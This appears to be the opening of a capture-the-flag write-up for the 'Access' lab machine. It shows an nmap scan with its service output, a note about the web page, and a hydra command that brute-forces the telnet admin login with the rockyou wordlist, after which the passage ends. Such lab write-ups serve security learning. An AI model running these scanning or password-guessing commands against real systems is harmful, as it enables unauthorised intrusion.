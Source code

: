 ## ------------->> Access <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.98 -p-
--------

    Nmap scan report for 10.10.10.98
    Host is up (0.20s latency).
    Not shown: 65532 filtered ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: PASV failed: 425 Cannot open data connection.
    | ftp-syst: 
    |_  SYST: Windows_NT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Navigating to http://10.10.10.98/ represent us only with picture called "out.jpg"

![Image 1]()

// 

$hydra -l admin -P ../../../../wordlists--/rockyou.txt 10.10.10.98 telnet








